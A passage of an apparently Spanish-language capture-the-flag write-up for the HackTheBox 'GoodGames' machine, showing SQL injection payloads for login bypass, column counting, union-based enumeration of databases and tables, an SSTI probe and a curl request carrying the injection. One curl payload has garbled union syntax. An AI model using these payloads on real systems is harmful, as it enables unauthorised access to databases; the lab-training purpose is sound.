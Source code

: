 Usando esta inyeccion, logramos burlar el panel y entramos como admin.
```bash
❯ ' or 1=1-- -                                       # La mas sencilla y nos devolveria un true, aveces hace bypass en el panel de autenticacion 
```
Existe un panel de configuracion, el cual no abre al principio, porque en la url esta tratando de hacer **Virtual Hosting (internal-administration.goodgames.htb)** por lo que debemos de agregar la ruta a nuestro **/etc/hosts** 

Usamos **BurpSuite** para ver si podemos usar en el mismo campo de login para poder inyectar comandos SQLI.
```bash
❯ ' or 1=1-- -                                       # La mas sencilla y nos devolveria un true, aveces hace bypass en el panel de autenticacion 
❯ ' order by 100-- -                                 # Haremos un ordenamiento con la 100va columna e iremos adivinando hasta que no nos marque un error
```
Encontramos que ya no nos marca error en la 4ta columna, ademas de fijarnos en el Content-Length, que cuando tiene error tiene un numero y cuando no, tiene otro numero.

```bash
❯ ' union select 1,2,3,4 -- -                        # Primero colocamos eso y buscamos cual es el numero que nos pone en el output de la web, ya que es en esa columna en donde podremos inyectar algo, y este se encuentra a lado del 'Welcome'
```
Despues podemos  ir inyectando diferentes cosas para ir viendo el output en la respuesta de BurpSuite

```bash
❯ ' union select 1,2,3,"test" -- -              # Nos muestra en el output de la web la palabra 'test'
❯ ' union select 1,2,3,"{{7*7}}" -- -           # Si en la respuesta miramos un 49, quiere decir que existe un SSTI (Server Site Template Injection)
❯ ' union select 1,2,3,database() -- -          # Queremos que muestre el nombre de la base de datos actual en uso
```

Para saber las bases de datos (DB) existentes.
```bash 
❯ ' union select 1,2,3,schema_name from information_schema.schemata-- -                    # Nos muestra todas las bases de datos existentes  
```

Para saber las tablas de la base de datos (DB) especifica. Lo limitamos ya que en la respuesta junta todas las tablas y no se aprecia bien.
```bash
❯ ' union select 1,2,3,table_name from information_schema.tables limit 0,1-- -             # Nos muestra las tablas existentes, pero limita a 1 resultado, el que varia es el 0 a 1,2,3, etc...
```

Para poder ver mejor las tablas, tendremos que hacerlo en la consola de la siguiente manera:
* Miramos que la peticion en BurpSuite es por POST
```bash
❯ curl -s -X POST http://10.10.11.130/login --data "email=test@test.com' union 1,2,3,select table_name from information_schema.tables limit 0,1-- -&password=1111"

	# data = Que es lo que queremos enviar a nivel de data
```
